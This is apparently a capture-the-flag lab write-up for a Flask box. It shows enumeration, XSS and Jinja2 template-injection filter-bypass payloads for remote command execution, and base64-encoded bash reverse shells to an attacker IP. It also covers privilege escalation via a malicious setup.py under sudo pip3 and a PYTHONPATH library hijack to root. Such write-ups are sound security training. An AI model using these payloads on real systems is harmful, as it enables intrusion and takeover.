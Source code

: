 # Vulnnet: dotpy

## Enumeration

cmd: ```sudo nmap -oN nmap/simple 10.10.138.220```

- 8080/tcp open  http-proxy

cmd: ```sudo nmap -sC -sV -p 8080 -oN nmap/open-versions 10.10.138.220```
	
- 8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
	
### Findings
- /login
	- some links, only mailto reveals potential user (hello@vulnnet.com)
	- /register -> allows to create account
- After login
	- Nothing really works on the page
	- Have some user pages
		- Blank page
		- Index
		- 500
- Trying to access /robots.txt

```bash
403			INVALID CHARACTERS DETECTED
Your request has been blocked.
```

- Trying to access /robots

```bash
404			SORRY!
The page you’re looking for was not found.
No results for robots  # <---- hummmm, what is this dude?!
```


## Finding flaws

- Accessing ```/<script>alert(document.location)</script>```
	- Alert pops!! (might need to steal cookies from that address)
- Accessing ```/{{7*'7'}}```
	- No results for 7777777

- **Found:** XSS and STTI

## [Exploring STTI](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

- Filters (blocked): , _ []
- Request to leak subclasses
	- Cannot: ```''.__class__.__base__.__subclasses()```
	- Bypass: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}} HTTP/1.1```
	- Subprocess location in MRO: **401** (using classes_dump.txt and finder.py to obtain it)
	
- Request to RCE: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('ping -c 3 10.9.128.84'),shell=True,stdout=-1)}}```
		
- Request to file read: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('ls%20-la',shell=True,stdout=-1)|attr('communicate')()}}```
		

```bash
	drwxr-xr-x  8 web  web   4096 Aug 27 17:53 .
	drwxr-xr-x 18 web  web   4096 Jan 26  2021 ..
	drwxr-xr-x  5 web  web   4096 Dec 21  2020 app
	-rw-r--r--  1 web  web   1254 Dec 21  2020 config.py
	-rw-r--r--  1 web  web  16384 Aug 27 17:53 db.sqlite3
	-rw-r--r--  1 web  web    450 Dec 21  2020 docker-compose.yml
	-rw-r--r--  1 web  web    224 Dec 21  2020 Dockerfile
	-rw-r--r--  1 web  web     34 Dec 21  2020 .dockerignore
	drwxr-xr-x  6 web  web   4096 Dec 21  2020 env
	-rw-r--r--  1 web  web    142 Dec 21  2020 .env
	drwxr-xr-x  8 web  web   4096 Dec 21  2020 .git
	-rw-r--r--  1 web  web    281 Dec 21  2020 .gitignore
	-rw-r--r--  1 web  web    198 Dec 21  2020 gunicorn-cfg.py
	-rw-r--r--  1 root root   888 Jan 29  2021 LICENSE.md
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 media
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 nginx
	-rw-r--r--  1 web  web    612 Dec 21  2020 package.json
	-rw-r--r--  1 web  web     36 Dec 21  2020 Procfile
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 __pycache__
	-rw-r--r--  1 web  web     34 Dec 21  2020 requirements-mysql.txt
	-rw-r--r--  1 web  web     29 Dec 21  2020 requirements-pgsql.txt
	-rw-r--r--  1 web  web    105 Dec 21  2020 requirements.txt
	-rw-r--r--  1 web  web   3104 Jan 29  2021 run.py
	-rw-r--r--  1 web  web     14 Dec 21  2020 runtime.txt
```

- Request to test for ping
	- Using b64 to avoid the "." blacklisting
	- Request: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('echo%20-n%20%22cGluZyAtYyAzIDEwLjkuMTI4Ljg0Cg==%22|base64%20-d|sh',shell=True,stdout=-1)|attr('communicate')()}}```


- Request to RCE
	- unencoded payload: ```/bin/bash -c "bash -i >& /dev/tcp/10.9.128.84/1414 0>&1"```
	- encoded payload: ```L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMTI4Ljg0LzE0MTQgMD4mMSI=```
	- Request: ```GET/{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('echo%20-n%20%22L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMTI4Ljg0LzE0MTQgMD4mMSI=%22|base64%20-d|sh',shell=True,stdout=-1)|attr('communicate')()}}```


## Got in

cmd: ```whoami && id```

```bash
web
uid=1001(web) gid=1001(web) groups=1001(web)
```

cmd: ```sudo -l```

```bash
User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

## Privescing

cmd: ```mkdir /tmp/www```
cmd: ```cd /tmp/www```
cmd: ```nano setup.py ```

```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.9.128.84/1415 0>&1'")
```

cmd: ```sudo -u system-adm /usr/bin/pip3 install .```

## Got in

cmd: ```whoami && id```

```bash
system-adm
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
```

cmd: ```sudo -l```
	

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```
	
## Enumeration
- Script seems ok! it backups manage's home folder
- Can read the backup
	cmd: ```sudo /usr/bin/python3 /opt/backup.py```

```bash
- -rw-r--r--  1 root root      2769 Aug 28 17:52 backup-20210828175259-manage.zip
```

- Since we got SETENV available, we can hijack libraries
		

## Exploitation

cmd: ```mkdir /tmp/waza```

cmd: ```cd /tmp/waza```

cmd: ```nano zipfile.py```

```python
import os

def ZipFile(arg, mode):
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.9.128.84/1415 0>&1'")
```

cmd: ```sudo PYTHONPATH=/tmp/waza/ /usr/bin/python3 /opt/backup.py```

## Got in

cmd: ```whoami && id```
	
```bash
root
uid=0(root) gid=0(root) groups=0(root)
```



